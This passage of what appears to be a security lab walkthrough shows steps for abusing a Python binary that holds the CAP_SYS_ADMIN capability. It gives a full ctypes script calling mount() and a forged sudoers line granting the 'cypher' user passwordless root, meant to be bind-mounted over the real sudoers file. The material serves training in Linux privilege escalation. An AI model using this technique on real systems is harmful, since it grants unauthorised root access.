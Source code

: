 81. Notice that the man page discusses the C-based `mount()` function.

82. We need a Python program that calls `mount()`, since the `python3-9` is our path to the `CAP_SYS_ADMIN` capability. Write this program code out to a file, like so:

    ```python
    cat <<END >mount.py
    #!/usr/bin/python3-9

    import argparse

    parser = argparse.ArgumentParser()
    parser.add_argument('-s', '--source', dest="src", required=True, help="source file or directory to mount on target")
    parser.add_argument('-t', '--target', dest="target", required=True, help="target mount point")
    parser.add_argument('-f', '--filesystemtype', dest="type", required=False, help="filesystem type - defaults to none",default="none")
    args = parser.parse_args()
    item = vars(args)

    from ctypes import *
    libc = CDLL("libc.so.6")
    libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
    MS_BIND = 4096
    source = bytes(item["src"],'utf-8')
    target = bytes(item["target"], 'utf-8')
    print(f"Mounting {source} onto {target}")
    filesystemtype = bytes(item["type"],'utf-8')
    options = b"rw"
    mountflags = 0
    if (item["type"] == "none"):
       mountflags = MS_BIND
    else:
       mountflags = 0
    libc.mount(source, target, filesystemtype, mountflags, options)

    END
    ```

83. Set the `mount.py` program executable:

    ```shell
    chmod 755 mount.py
    ```

84. Run the `mount.py` program with the `-h` argument to see the help:

    ```shell
    ./mount.py -h
    ```

85. We will use this program to mount our own `sudoers` file on top of the existing one. Construct a simple `sudoers` file that allows the `cypher` user to run any command as root, without needing to type a password:

    ```shell
    echo "cypher ALL=(ALL) NOPASSWD: ALL" >sudoers
    ```
